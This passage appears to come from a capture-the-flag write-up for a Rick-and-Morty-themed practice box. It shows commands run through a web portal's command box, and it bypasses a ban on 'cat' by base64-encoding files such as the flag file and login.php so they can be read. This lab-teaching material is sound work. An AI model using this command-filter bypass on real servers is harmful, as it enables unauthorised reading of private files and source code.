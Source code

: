 ```shell
➜  ~ 
```

When we decode a string we get another encoded string until we have this message : "rabbit hole", well...

Entering "ls" in the portal.php text box, the output is

```shell
ls 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

if we make "cat Sup3rS3cretPickl3Ingred.txt" we can't because the cat command is banned

We can bypass the banning mechanism thanks to "base64" command

We can print file content by using base64 command and we decode the content in our machine

```shell
➜  ~ base64 Sup3rS3cretPickl3Ingred.txt
[first flag]
```

We make the same for login.php to see what are banned commands

```shell
➜  ~ base64 login.php
PD9waHAKc2Vzc2lvbl9zdGFydCgpOwoKaWYoJF9TRVNTSU9OWyJsb2dpbiJdID09IGZhbHNlKSB7
CiAgIGhlYWRlcigiTG9jYXRpb246IC9sb2dpbi5waHAiKTsgZGllKCk  [...too long..]  saVJtaG9UVmhDYjFac1dt
RldNVnBXVFZWV2FHVnFRVDA9PSAtLT4KICA8L2Rpdj4KPC9ib2R5Pgo8L2h0bWw+Cg==
```

Decoded content 

```Shell
  <?php
session_start();

if($_SESSION["login"] == false) {
   header("Location: /login.php"); die();
}

?>
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
```